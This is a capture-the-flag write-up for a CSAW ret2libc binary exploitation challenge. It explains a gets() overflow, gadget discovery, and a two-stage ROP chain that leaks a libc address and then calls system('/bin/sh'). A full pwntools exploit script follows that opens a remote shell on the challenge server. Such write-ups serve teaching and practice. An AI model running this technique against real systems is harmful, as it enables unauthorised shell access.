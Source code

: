 ## The Beginning
This is a classic ret2lib binary exploitation problem. Source code is not given so we need to use Cutter to see the code.

The ```main``` looks like this:       

```
undefined8 main(void)
{
    char *s;
    
    init();
    puts("Hello");
    gets(&s);
    return 0;
    }
```

## Get gadgets
Use ```ROPgadget --binary rop | grep "ret"``` to get ```ret``` address ```0x40048e```        

## Or automatically get them through pwn
Like this:
```
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
```
## Find plt address for 
```
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

```

## Create 1st rop 
The first rop is used to leak libc base address.

```
rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)

```

After sending in the rop through ``` p.sendline(rop)```, we will receive an address back. This is the leaked ```main``` address.

We used ```bytes_to_long(received[-2: :-1])``` to process the address and put it into ```leaked```.
Then use this leaked to construct second rop!

## Construct second rop
We can get libc base address through ``` leaked - libc.sym["__libc_start_main"] ``` and assign it to ```libc.address```.    
```libc = ELF("libc-2.27.so")``` which is given. This libc is machine dependent. You can find out which libc you are using by ```ldd rop```, and set libc accordingly. 

The second rop is like this:
```
rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])

```

## Original Script

```
from pwn import *
from Crypto.Util.number import *

p = remote('pwn.chal.csaw.io', 5016)
#p = process("rop")
libc = ELF("libc-2.27.so")

elf = ELF("rop")
rop = ROP(elf)

base = b"A"*40
ret = 0x40048e
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

log.info("rdi:"+hex(poprdi))
log.info("_libc_start:"+hex(_libc_start_main_ptr))
log.info("puts:"+hex(puts))

rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)
log.info("Sending 1st payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

recieved = p.recvline()
leaked = bytes_to_long(recieved[-2: : -1])

log.info("address of leaked:"+hex(leaked))

libc.address = leaked - libc.sym["__libc_start_main"]
log.info("address of libc:" + hex(libc.address))

rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])
log.info("Sending real payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

p.interactive()
```
